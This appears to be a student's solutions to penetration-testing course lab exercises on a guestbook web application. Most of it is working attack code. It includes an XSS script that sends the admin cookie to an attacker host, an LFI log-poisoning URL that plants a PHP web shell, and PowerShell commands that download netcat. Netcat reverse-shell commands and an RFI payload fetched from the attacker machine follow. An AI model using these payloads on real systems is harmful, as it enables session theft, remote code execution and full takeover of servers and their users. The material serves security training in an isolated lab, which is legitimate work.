

13.2.3 - Exercises
1. Exploit the XSS vulnerability in the guestbook application to get the admin
cookie and hijack the session. The admin user is ‘offsec’ with password ‘123456’.
2. Consider what other ways an XSS here might be able to be used for attacks.
3. Does this exploit attack the server or clients of the site?
1.
Code to steal the cookie:
<script>
new Image().src="http://10.11.0.187:81/bogus.php?output="+document.cookie;
</script>
Session ID captured and session hijacked:

2. A XSS here might be able to be used for stealing credit card information or on pages that contain PII.
3. This exploit attacks the clients of the site--not the servers.
13.3.1.3 - Exercises
1. Obtain code execution through the use of the LFI attack.
2. Using what you learned on file transfers, use the code execution to obtain a full
shell.
1.
Server IP configuration obtained thorugh example LFI attack:


2.
http://10.11.10.124/addguestbook.php?name=Hacker&comment=words&cmd=C:\xampp\htdocs\nc.exe%20-nv%2010.11.0.187%20443%20-e%20cmd.exe&LANG=../../../../../../../xampp/apache/logs/access.log%00&Submit=Submit
On Kali:
nc -nv 10.11.10.124 80
<?php echo shell_exec($_GET['cmd']);?>
Then entered one of the below commands and repeated the sequence:
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.11.0.187/nc.exe" >>wget.ps1
echo $file = "nc.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
C:\xampp\htdocs\nc.exe -nv 10.11.0.187 443 -e cmd.exe
Reverse shell obtained:

13.3.2.1 - Exercise
1. Exploit the RFI vulnerability in the web application and get your shell.
Place this command in a txt file and enter the url for the file in the browser.
<?php echo shell_exec("nc.exe -nv 10.11.0.187 443 -e cmd.exe");?>
http://10.11.10.124/addguestbook.php?name=Hacker&comment=words&LANG=http://10.11.0.187/evil.txt%00&Submit=Submit